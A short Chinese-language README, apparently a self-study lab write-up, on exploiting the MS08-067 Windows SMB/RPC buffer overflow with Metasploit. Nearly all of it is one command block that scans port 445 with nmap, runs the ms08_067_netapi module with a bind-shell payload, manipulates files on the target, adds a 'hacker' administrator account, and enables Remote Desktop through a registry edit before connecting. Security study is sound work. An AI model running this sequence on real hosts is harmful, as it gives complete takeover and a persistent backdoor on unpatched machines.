 # MS08-067-RPC
该资源是MS08-067远程代码执行漏洞，它是Windows Server服务RPC请求缓冲区溢出漏洞，利用445端口，并通过Metasploit工具获取shell及进行深入的操作。

<br />

参考文章：<br />
[[网络安全自学篇] 五十九.Windows漏洞利用之MS08-067远程代码执行漏洞复现及shell深度提权](https://blog.csdn.net/Eastmount/article/details/104834931)  <br />
[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) <br />


核心命令： <br />

```shell
# 端口查询
nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open

# 查找漏洞利用模块
msfconsole
search ms08-067

# 漏洞利用
use exploit/windows/smb/ms08_067_netapi
show options
show targets

# 设置相关配置信息
set RHOST 192.168.44.135
set RPORT 445
set payload generic/shell_bind_tcp
set LHOST 192.168.44.136
set target 0
show options

# 反弹shell
exploit
session 1
ipconfig
pwd

# 目标主机文件操作
cd ..
mkdir hacker
dir
cd hacker
echo eastmount>test.txt
sysinfo

# 深度提权及远程连接操作
net user hacker 123456 /add 
net localgroup administrators hacker /add
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
netstat -an
rdesktop 192.168.44.135
```



